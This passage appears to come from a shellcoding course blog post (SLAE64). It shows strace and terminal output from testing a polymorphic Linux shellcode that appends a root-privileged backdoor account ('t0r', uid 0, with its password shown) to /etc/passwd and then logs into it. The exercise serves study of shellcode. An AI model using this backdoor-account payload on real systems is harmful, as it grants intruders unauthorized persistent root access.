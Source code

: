 ### Strace Polymorphic Version
```bash
root# strace ./shellcode
setuid(0)                               = 0
open("/etc/passwd", O_WRONLY|O_CREAT|O_APPEND, 000) = 3
write(3, "t0r:3UgT5tXKUkUFg:0:0::/root:/bi"..., 38) = 38
close(3)                                = 0
exit(0)                                 = ?
+++ exited with 0 +++
```
+ And look at that, what a beauty. 

### Checking `/etc/passwd` & Testing
```bash
root# ./shellcode
Shellcode Length:  123
root# tail -n 1 /etc/passwd
t0r:3UgT5tXKUkUFg:0:0::/root:/bin/bash
root# echo $$ | xargs ps
    PID TTY      STAT   TIME COMMAND
  14030 pts/1    S      0:00 bash
root# su boku
boku$ su t0r
Password: Winner
root# echo $$ | xargs ps
    PID TTY      STAT   TIME COMMAND
  14685 pts/1    S      0:00 bash
root# id
uid=0(root) gid=0(root) groups=0(root)
```
+ Here we can see that the polymorphic version of the shellcode worked as intended.

## SLAE64 Blog Proof
```bash
This blog post has been created for completing the requirements of the x86_64 Assembly Language and Shellcoding on Linux (SLAE64):
    https://www.pentesteracademy.com/course?id=7
SLAE/Student ID: PA-10913
```

